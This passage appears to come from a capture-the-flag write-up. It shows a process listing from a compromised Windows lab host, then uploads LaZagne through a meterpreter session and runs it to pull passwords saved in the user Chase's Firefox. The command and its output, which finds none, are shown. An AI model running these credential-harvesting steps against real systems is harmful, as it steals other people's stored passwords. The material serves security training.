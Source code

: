     6464  6672  php-cgi.exe                                                
    6564  5908  vmtoolsd.exe                                               
    6584  792   wsmprovhost.exe          x64   0        SUPPORTDESK\Chase  C:\Windows\System32\wsmprovhost.exe
    6672  2896  w3wp.exe                                                   
    6772  612   svchost.exe                                                
    6792  6852  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
    6808  1468  MpCmdRun.exe                                               
    6852  6676  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe
    6940  612   svchost.exe                                                
    6948  6672  php-cgi.exe                                                
    6988  6852  firefox.exe              x64   1        SUPPORTDESK\Chase  C:\Program Files\Mozilla Firefox\firefox.exe


Our Chase user is running a Firefox Browser. The idea is to see if there is
credentials stored in the browser's password manager. For that we will use
[LaZagne](https://github.com/AlessandroZ/LaZagne/).



## Lazagne

We upload the Lazagne executable using the meterpreter. Then using a shell we
launch LaZagne with the `browsers` parameter.

    :::text
    meterpreter > shell
    Process 3468 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.437]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\Chase\Documents>.\05.exe browsers
    .\05.exe browsers

    |====================================================================|
    |                                                                    |
    |                        The LaZagne Project                         |
    |                                                                    |
    |                          ! BANG BANG !                             |
    |                                                                    |
    |====================================================================|


    [+] 0 passwords have been found.
    For more information launch it again with the -v option
